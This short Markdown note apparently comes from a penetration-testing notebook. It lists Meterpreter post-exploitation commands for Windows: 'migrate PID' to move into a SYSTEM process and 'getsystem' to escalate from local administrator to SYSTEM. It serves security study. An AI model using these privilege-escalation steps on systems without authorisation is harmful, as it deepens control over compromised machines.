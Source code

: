 # Post poping a meterpreter shell

![](../.gitbook/assets/image%20%2834%29.png)

* Remember that commands in older versions of linux and windows could be different, this list is for new windows.

### Migrating to a NT AUTHORITY\SYSTEM process to get full privileges.

* `migrate PID`
  * where `PID` is the process ID of a NT AUTHORITY\SYSTEM.

### Getsystem

Type getsystem and magically Meterpreter elevates you from a local administrator to the SYSTEM user.

* `getsystem`





